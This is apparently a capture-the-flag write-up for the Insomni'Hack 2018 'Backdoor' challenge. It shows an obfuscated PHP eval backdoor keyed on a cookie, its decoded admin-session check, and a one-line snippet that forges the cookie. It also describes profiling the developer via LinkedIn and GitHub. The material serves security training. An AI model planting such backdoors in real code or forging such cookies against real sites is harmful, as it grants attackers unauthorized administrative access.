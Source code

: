 ```yaml
---
title: Insomni'Hack 2018 - Backdoor
layout: writeup
authors: Guillaume_Lopes
---
```

Solves: 25 / Points: 124


## Challenge description
The challenge is pretty simple. You need to find information about a specific developer in order to obtain access to a web application.



## Challenge resolution


When connecting to the webapp http://bd.insomniack.ch, we can found in the HTML code the name of the developer:

* James Karsmith

After some Googling, we finally found a Linkedin account from a web developer working in Geneve with the same name:
![James Linkedin Profile]({{ site.url }}/assets/james.png)

When looking on a GitHub, we can find only one user with the company name:

* https://github.com/WackyWebWizards

In the repository, we can see the developer created a backdoor in order to login as shown in the code below:
```php
<?php
if(isset($_COOKIE['wwwadmin'])) {
        $code="y0zTSK/KzEvLSSxJ1UhKLE41M4lPSU3OT0nVUIl39vf39nSNVi8vL09Myc3MU4/V1FSwtbVVUCo2Ti4yLolPSkzOTjEwKIovyY9PzMmJL0hMTy1WVNJUqObiVIkPdg0O9vT3i1bPTFGPVbBVMLRGEYUaCZGoBQA=";
        eval(gzinflate(base64_decode($code)));
}
?>
```

In order to retrieve the value of $code variable, we just modified `eval` function with `echo` and we obtained the following code:
```php
if(gzinflate(base64_decode($_COOKIE['wwwadmin'])) === "s3cr3t_backd00r_to_all_pages!") {
	$_SESSION['id'] = 1;
	$_SESSION['admin'] = 1;
}
```

So to sump up, in order to obtain admin access, we need to have a cookie name `wwwadmin` with the value "s3cr3t_backd00r_to_all_pages!" compressed with Gzip and encoded in base64.
It's just one line of PHP:
```php
echo base64_encode(gzdeflate("s3cr3t_backd00r_to_all_pages!"));
```

At the end we obtain the flag!!!

![Flag]({{ site.url }}/assets/backdoor-flag.png)
